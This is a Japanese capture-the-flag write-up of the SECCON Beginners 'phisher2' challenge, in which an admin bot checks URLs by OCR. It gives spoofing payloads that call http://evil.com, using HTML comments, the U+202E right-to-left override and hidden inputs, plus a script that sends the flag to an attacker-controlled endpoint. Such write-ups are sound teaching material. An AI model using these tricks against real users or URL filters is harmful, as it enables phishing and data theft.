

# phisher2

目に見える文字が全てではないが、過去の攻撃は通用しないはずです。

あなたの作成したHTMLファイルでAdminを騙してみましょう！AdminはHTMLに含まれるURLのドメインを見て、安全なドメインならアクセスします。

app.pyはこのようになっています(一部抜粋)。ユーザが送信した文字列をHTMLとして保存し、Adminへ送信しています。

```py
@app.route("/", methods=["POST"])
def chall():
    try:
        text = request.json["text"]
    except Exception:
        return {"message": "text is required."}
    fileId = uuid.uuid4()
    file_path = f"/var/www/uploads/{fileId}.html"
    with open(file_path, "w", encoding="utf-8") as f:
        f.write(f'<p style="font-size:30px">{text}</p>')
    message, ocr_url, input_url = share2admin(text, fileId)
    os.remove(file_path)
    return {"message": message, "ocr_url": ocr_url, "input_url": input_url}

```

admin.pyはこのようになっています。先ほどのHTMLファイルを開いて、その中に含まれるURLを見て、安全なURLなら(フラグを送信しつつ)アクセスします。ここで、安全なURLとは`APP_URL`で指定されたURLのみです。

```py
import os
import re
import pyocr
import requests
from PIL import Image
from selenium import webdriver

APP_URL = os.getenv("APP_URL", "http://localhost:16161/")
FLAG = os.getenv("FLAG", "ctf4b{dummy_flag}")

# read text from image
def ocr(image_path: str):
    tool = pyocr.get_available_tools()[0]
    return tool.image_to_string(Image.open(image_path), lang="eng")


def openWebPage(fileId: str):
    try:
        chrome_options = webdriver.ChromeOptions()
        chrome_options.add_argument("--no-sandbox")
        chrome_options.add_argument("--headless")
        chrome_options.add_argument("--disable-gpu")
        chrome_options.add_argument("--disable-dev-shm-usage")
        chrome_options.add_argument("--window-size=1920,1080")
        driver = webdriver.Chrome(options=chrome_options)
        driver.implicitly_wait(10)
        url = f"file:///var/www/uploads/{fileId}.html"
        driver.get(url)

        image_path = f"./images/{fileId}.png"
        driver.save_screenshot(image_path)
        driver.quit()
        text = ocr(image_path)
        os.remove(image_path)
        return text
    except Exception:
        return None


def find_url_in_text(text: str):
    result = re.search(r"https?://[\w/:&\?\.=]+", text)
    if result is None:
        return ""
    else:
        return result.group()


def share2admin(input_text: str, fileId: str):
    # admin opens the HTML file in a browser...
    ocr_text = openWebPage(fileId)
    if ocr_text is None:
        return "admin: Sorry, internal server error."

    # If there's a URL in the text, I'd like to open it.
    ocr_url = find_url_in_text(ocr_text)
    input_url = find_url_in_text(input_text)

    # not to open dangerous url
    if not ocr_url.startswith(APP_URL):
        return "admin: It's not url or safe url.", ocr_url, input_text

    try:
        # It seems safe url, therefore let's open the web page.
        requests.get(f"{input_url}?flag={FLAG}")
    except Exception:
        return "admin: I could not open that inner link.", ocr_url, input_text
    return "admin: Very good web site. Thanks for sharing!", ocr_url, input_text
```

ただし、URLに特殊な文字は使用できません。

```py
def find_url_in_text(text: str):
    result = re.search(r"https?://[\w/:&\?\.=]+", text)
    if result is None:
        return ""
    else:
        return result.group()
```

そこで、以下の文字列を作成することを目標とします。

* ユーザの入力した文字列と、HTML上で表示される文字列が異なる
* `find_url_in_text`を使用した時にURLが正しく抽出される(=`input_url`, `ocr_url`ともにURLが含まれる)

このような文字列を作成する手段として2つ紹介します。

## コメントアウトを使用する方法

```html
<!--http://evil.com-->https://phisher2.beginners.seccon.games/
```

この場合、OCRをするとコメントアウトされた箇所は表示されず、`ocr_url`は`https://phisher2.beginners.seccon.games/`になります。また、`input_url`は最初に現れるURLなので、`http://evil.com`になります。

## 表示方向の制御文字を使用する方法

```html
‮http://evil.com/semag.nocces.srennigeb.2rehsihp//:sptth
```
先頭に[U+202E]を入れた場合、OCRすると文字の左右が反転するため、`ocr_url`は`https://phisher2.beginners.seccon.games/moc.live//:ptth`になります。また、`input_url`は先頭の[U+202E]が無視されるため、`http://evil.com/semag.nocces.srennigeb.2rehsihp//:sptth`になります。

## hidden inputを使用する方法

`type=hidden`を用いた方法です。似たようなものとして、CSSを使うなどの方法もあります。

```html
<input type="hidden" value="http://evil.com" />https://phisher2.beginners.seccon.games/
```

## 攻撃方法のまとめ

Adminからのリクエストを受け取るサーバを用意して、そちらにフラグを送信します。個人でサーバを用意しても良いですが、[pipedream](https://pipedream.com/)などを使用するとお手軽に用意することができます。

```py
import requests
import json
import os
def attack():
    ENDPOINT = "https://phisher2.beginners.seccon.games"

    text = "‮https://{YOUR_PIPEDREAM_DOMAIN}.m.pipedream.net/{ENDPOINT[::-1]}"
    res = requests.post(f"{ENDPOINT}", json={"text": text}).text
    message = json.loads(res)["message"]
    if message != "admin: Very good web site. Thanks for sharing!":
        raise ValueError(f"ERROR {message}")
```

すると、このようなリクエストが飛んできます(一部加工をしています)。



よってフラグはこのようになります。

`ctf4b{w451t4c4t154w?}`